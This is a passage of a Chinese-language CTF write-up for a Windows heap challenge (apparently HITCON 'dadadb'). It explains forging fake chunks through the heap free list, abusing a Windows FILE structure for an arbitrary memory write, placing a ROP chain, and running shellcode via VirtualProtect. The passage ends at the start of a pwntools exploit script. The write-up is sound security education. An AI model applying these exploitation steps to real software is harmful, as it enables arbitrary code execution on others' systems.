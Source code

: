 ## Arbitrary memory write

非預期解只要把 fake chunk 構造在 stack，讓下次 malloc 得到他然後寫掉 return address 做 ROP 就可以了，預期解是利用全域變數 fp (讀 user.txt 的 pointer) 這個 file structure 來做 arbitrary memory write，把 ROP chain 寫進 return address。

windows heap 有分前 / 後端管理器，剛剛提到的 LFH 屬於前端，為了拿到假的 chunk 需要使用後端管理器的特性，類似 Linux 的 large bin ，每個 free chunk 會有 fd 和 bk 指向鄰近的 free chunk。構造假 chunk 到 fp 上的步驟：

```
1. add('A', 0x440, 'aaaa')
2. add('A', 0x100, 'aaaa')
3. add('B', 0x100, 'bbbb')
4. add('C', 0x100, 'cccc')
5. add('D', 0x100, 'dddd')
6. remove('B')
7. remove('D')
8. 把 fake chunk 放在 user, pass 兩個全域變數內
9. 利用 heap overflow 把 free list 改成 B->fake2(pass)->fake1(user)
```

利用 A 可以拿到經過 encode 的 chunk header、B 和 D 的位址，就可以把 fake chunk 放進 free list ( 如果能寫到 D chunk 的話應該可以插一個 fake chunk 進去就好 ) 。

接下來的任務就是利用 windows file struct 把 ROP chain 讀進 stack ，有了 [angelboy 的簡報](https://github.com/scwuaptx/CTF/blob/master/2019-writeup/hitcon/dadadb/dadadb.pdf)我們只要照著做就好 :3 簡單來說就是：

```
1. _file = 0 (stdin)
2. _flag = 0x2080 (_IOALLOCATED | _IOBUFFER_USER)
3. _cnt = 0
4. _base = return address
5. _bufsize >= fread 所讀的量 (這題是 0x100)
```

## Get flag

接下來就是 ROP 讀 shellcode 進來然後用 VirtualProtect 改成可執行再跳過去就拿到 flag 了。

還有一點是如果用 default heap 的話，剛剛弄壞的 heap 需要重新設定，不然跑 winapi 的時候會壞掉，我懶所以就跳過沒做 :3

```
1. new_heap = HeapCreate
2. _PEB->ProcessHeap = new_heap
3. ntdll!LdrpHeap = new_heap
```

# Payload

{% highlight python lineos %}
from pwn import *
import time
import sys


def add(key, size, data):
    proc.sendlineafter(b'>>', b'1')
    proc.sendlineafter(b':', key)
    proc.sendlineafter(b':', f'{size}'.encode())
    proc.sendafter(b':', data)


def view(key):
    proc.sendlineafter(b'>>', b'2')
    proc.sendlineafter(b':', key)
    proc.recvuntil(b'Data:')


def remove(key):
    proc.sendlineafter(b'>>', b'3')
